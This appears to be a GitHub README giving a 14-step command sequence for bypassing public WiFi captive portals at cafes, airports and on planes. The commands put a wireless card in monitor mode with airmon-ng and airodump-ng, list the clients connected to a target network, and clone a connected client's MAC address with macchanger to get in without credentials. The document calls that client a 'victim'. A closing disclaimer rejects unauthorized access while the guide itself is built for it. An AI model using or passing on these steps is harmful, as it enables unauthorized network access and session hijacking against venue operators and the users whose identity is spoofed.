 ## HOW TO SET YOUR MAC ADDRESS OF A WIFI/NETWORK SAME AS OF YOUR VICTIM TO CONNECT TO A CAPTIVE PORTAL AT COFFEE SHOP/AIRPORT/AEROPLANE/PUBLIC WIFI TO ACCESS FREE WIFI WITHOUT ENTERING USERNAME-PASSWORD. 


STEP 1-  sudo ip a 

STEP 2-  sudo ifconfig wlan1 down  (type the interface of the network card of which you want to change mac address)

STEP 3-  sudo macchanger -r wlan1  (-r = to change the mac address randomly)

STEP 4-  sudo ifconfig wlan1 up

STEP 5-  sudo airmon-ng start wlan1

STEP 6-  sudo ip a  (to check that the network interface in monitor mode)

STEP 7-  sudo airodump-ng wlan1mon 

STEP 8-  sudo airodump-ng wlan1mon -bssid 00:00:00:00:00:00 -c 0 (-c =? .....--bssid = ? enter the bssid/mac address of the victim free captive portal wifi )

STEP 9-  Now you will get all the clients that are on that network you can choose one and then copy the MAC Address of that client.

STEP 10- sudo ifconfig wlan0 down (now enter the second network interface so that we can change the mac address of the same )

STEP 11-  sudo macchanger -m 00:00:00:00:00:00 wlan0 (-m = to specify the mac address you want, enter the address here which you copied from the victim)

STEP 12-  sudo ifconfig wlan0 up

STEP 13-  sudo ip a

Step 14- now connect to the free wifi/captive portal and try to access enter it will not ask you to enter the username/password to access the wifi.

# Disclamer:
The information provided herein strictly prohibits and disclaims any involvement in cracking WiFi passwords. Users are hereby informed that such activities are illegal and against ethical guidelines. 
This platform does not endorse, support, or encourage any form of unauthorized access to computer systems or networks. 
Users are urged to comply with all applicable laws and regulations and to utilize their knowledge and skills for legal and ethical purposes only. 
The platform, its creators, and contributors cannot be held responsible for any misuse or illegal application of the information provided.

